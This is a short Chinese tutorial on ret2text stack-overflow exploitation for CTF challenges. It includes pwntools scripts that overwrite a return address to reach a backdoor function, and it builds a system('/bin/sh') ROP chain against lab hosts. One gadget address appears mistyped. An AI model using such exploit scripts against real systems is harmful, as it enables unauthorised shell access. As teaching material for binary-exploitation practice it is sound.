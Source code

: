 



### ret2text

#### 一 基本步骤

1.检查二进制文件的信息。(file <文件名> & checksec <文件名>)

2.打开ida查看二进制的反汇编代码。

3.编写exp脚本

4.开启靶机，进行远程连接。

5.利用exp脚本打通远程，获取flag

#### 二 原理一

​		将返回地址覆盖为程序.text段中已有的代码的地址，从而执行本身的代码由于我们要获得shell，二进制文件中本身就含有一个可以直接获取权限的函数，然后我们通过栈溢出漏洞，控制程序执行流，把返回地址覆盖为这个函数的地址让文件运行这个获取权限的函数，我们就可以拿到权限，进而获得flag

```python
# 简单样例
from pwn import *
# io=process('./file')   本地
p=remote('10.10.69.11',11456)
getshell_addr = 0x11456b7a
padding = 4+9

payload=b'a'*padding+p32(getshell_addr)

p.sendline(payload)
p.interactive()


```





#### 三 原理二

​		当二进制文件里没有直接可以获取权限的后门函数的时候，只有一个system()函数，然后在其它的地方有/bin/sh字符串，那么我们就可以把他们组合一下，变成system("/bin/sh"),来获取权限。

​		64位程序传参需要寄存器。

```
ROPgadget --binary x64 --only "pop|ret"
```

```python
from pwn import *

p=remote('10.10.69.19',11459)

padding=0x80+8

system_addr=0x400560
binsh_addr=0x601060

rdi_ret =0x000000000004007e3
payload = b'a'*padding + p64(rdi_ret) + p64(binsh_addr) + p64(system_addr)# 把binsh放进rdi
# system命令执行会去rdi寄存器找他的参数
p.sendline(payload)
p.interactive()

```
